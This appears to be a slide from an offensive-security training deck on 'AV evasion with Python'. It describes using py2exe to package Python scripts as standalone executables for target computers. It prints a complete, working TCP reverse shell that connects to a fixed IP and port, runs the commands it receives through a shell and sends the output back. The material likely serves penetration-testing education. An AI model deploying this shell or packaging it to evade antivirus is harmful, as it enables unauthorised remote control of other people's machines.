

AV evasion with Python

Py2exe
Py2exe is used to compile python files into a self-contained executables.
In other words, py2exe can be used to compile python programs into standalone executables so that they don’t require Python interpreter to be present in the target computer.
This happens most of the time because Python isn’t usually installed in the targeted computers.
We will use py2exe to compile .py files into .exe

Before we start, we will create a simple PoC python script myscript.py that will contain “malicious” code which will execute a TCP reverse shell.
We will use the following script throughout this section:
import socket as s
import subprocess as r
so = s.socket(s.AF_INET, s.SOCK_STREAM)
so.connect(('192.168.10.95', 9999))
while True:
    d = so.recv(1024)
    if len(d) == 0:
        break
    p = r.Popen(d.decode(), shell=True, stdin=r.PIPE, stdout=r.PIPE, stderr=r.PIPE)
    o = p.stdout.read() + p.stderr.read()
    so.send(o)
152